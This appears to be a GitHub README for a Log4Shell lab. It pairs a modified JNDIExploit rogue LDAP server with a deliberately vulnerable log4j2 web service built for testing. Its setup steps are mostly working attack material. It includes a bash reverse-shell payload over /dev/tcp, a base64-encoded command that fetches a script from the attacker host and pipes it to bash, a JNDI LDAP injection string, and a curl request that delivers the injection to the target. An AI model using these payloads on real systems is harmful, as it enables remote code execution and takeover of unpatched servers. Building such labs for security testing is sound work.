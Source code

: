 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1). Before running the Rogue LDAP Server, we should build and run the vulnerable ```loggin-log4j2``` application

### Build and run with Maven

In order to build the ```RogueLDAP``` server we will run the following commands 

```
cd RogueLDAP
mvn clean package
cd target
java -jar RogueLDAP-1.4-SNAPSHOT.jar
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the Log4Shell vulnerability using the ```RogueLDAP``` server previously described.  

### Build and run with Docker

From cli run the following command to build and run the ```logging-log4j2``` application 

```
cd logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
docker run -p 8080:8080 logging-log4j2-vuln 
```

## Setting up the Environment

The setup should be as follows 

1. run the ```RogueLDAP``` server at the attacking machine
2. run the vulnerable ```logging-log4j2``` application at the target machine
3. create a folder called shells at a preffered location at the attacking machine

```
mkdir shells 
cd shells 
```

Inside the shells folder create an ```index.html``` file 

```
touch index.html 
```

Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to your environment

``` 
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.6/8082 0>&1" &
``` 

4. convert the payload ```$(curl 192.168.1.6:8085|bash)``` in base64 format as seen below (change the IP address with the one that suits to your environment) 

```
JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=
```

5. In order to perform a JNDI LDAP query the following payload will be used (change the IP address with the one that suits to your environment) 

```
${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}
``` 

6. Now open a new terminal window and inside the shells directory run the following command in order to start a python simple HTTP server

```
cd shells 
python3 -m http.server 8085
```

7. Now that the ```logging-log4j2``` application runs, open a new terminal window and run the ```curl``` command line tool in order to send the jndi payload as shown below 
(change the IP address with the one that suits to your environment) 

```
curl -s -X POST http://192.168.1.6:8080/lol -H "Content-type:application/json" -d "{\"vuln\":\"\${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}\"}"
```
